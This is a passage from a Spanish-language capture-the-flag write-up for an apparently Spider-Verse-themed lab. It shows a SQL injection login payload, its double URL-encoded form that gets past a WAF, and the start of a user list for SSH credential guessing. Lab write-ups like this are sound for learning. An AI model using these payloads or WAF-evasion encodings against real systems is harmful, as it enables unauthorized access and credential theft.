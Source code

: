 ```
User: ' OR 1=1-- -
Pass: ' OR 1=1-- -
```

Info:

```
Accede al núcleo del Spider-Verse para explorar otras dimensiones.

¡Entrada bloqueada por el WAF!
```

Nos esta diciendo que tiene un `WAF` controlando las entradas, vamos a intentar `Bypassear` dicho `WAF` a ver si lo conseguimos.

## Bypass del WAF

Probando algunos `payloads` codificados, veremos que este funciona:

```
User: %2527%2520OR%25201%253D1%252D%252D%2520-
Pass: %2527%2520OR%25201%253D1%252D%252D%2520-
```

Es una codificacion doble de `URL` del `payload` (`' OR 1=1-- -`), si metemos eso veremos lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-05 190539.png" alt=""><figcaption></figcaption></figure>

Vemos que ha funcionado y obtendremos varias credenciales las cuales vamos a crear 2 diccionarios de contraseñas y usuarios, para probarlos en `SSH`.

> users.txt

```
peter
miles
gwen
```
